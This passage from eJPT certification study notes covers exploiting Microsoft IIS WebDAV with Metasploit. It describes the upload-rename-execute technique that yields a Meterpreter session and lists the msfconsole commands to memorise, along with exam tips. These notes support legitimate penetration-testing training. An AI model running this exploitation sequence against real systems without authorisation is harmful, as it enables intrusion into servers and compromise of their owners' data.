 **Technical Process:**
1. **Upload Strategy:** File uploaded as .txt to bypass potential restrictions
2. **File Renaming:** Moved from .txt to .asp for execution
3. **Payload Execution:** ASP file executed to establish connection
4. **Cleanup Attempt:** Module attempted to delete payload file
5. **Session Establishment:** Meterpreter session opened successfully

---

## 🎯 eJPT Exam Focus

### Essential WebDAV Exploitation Skills for eJPT Certification

#### 1. Module Identification and Selection
```bash
# Search for WebDAV-related modules
search webdav
search iis webdav

# Select the appropriate exploitation module
use exploit/windows/iis/iis_webdav_upload_asp
```

#### 2. Configuration Management
- **Target Setting:** Properly configure RHOSTS for target IP
- **Authentication:** Set HttpUsername and HttpPassword correctly
- **Path Configuration:** Understand PATH parameter for WebDAV directory
- **Payload Selection:** Choose appropriate payload for target architecture

#### 3. Exploitation Process
- **Pre-Exploitation:** Verify WebDAV capabilities with davtest
- **Module Configuration:** Set all required parameters correctly
- **Payload Delivery:** Understand upload and execution process
- **Session Management:** Handle Meterpreter sessions effectively

### Critical eJPT Commands to Memorize
```bash
# Core exploitation sequence
msfconsole -q
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS [target_ip]
set HttpUsername [username]
set HttpPassword [password]
exploit
```

### eJPT Exam Tips
- **Time Management:** This module provides quick access if WebDAV is confirmed vulnerable
- **Common Mistakes:** Don't forget to set authentication credentials
- **Best Practices:** Verify WebDAV capabilities with davtest first
- **Integration Points:** Use with post-exploitation modules for privilege escalation

---